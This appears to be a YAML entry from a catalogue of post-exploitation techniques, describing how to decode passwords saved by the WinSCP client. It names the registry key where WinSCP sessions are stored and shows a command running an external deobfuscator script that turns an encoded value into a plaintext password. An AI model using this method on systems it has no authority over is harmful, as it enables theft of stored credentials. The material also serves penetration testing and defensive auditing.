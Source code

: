 ```yaml
---
functions:
  enumeration:
    - description: Decode Saved Passwords
      code: |
           Required registry keys
        HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2\Sessions\
        python winscp-deobfuscator.py --hostname ip --username username --hash encodedvalue
          ==================================================
                WinSCP deobfuscation from command line      
          ==================================================
                          Host: ip
                          User: username
                      Password: decodedvalue
          --------------------------------------------------

resources: |
  https://github.com/unkn0wnsyst3m/scripts/blob/master/winscp-deobfuscator.py
---
```

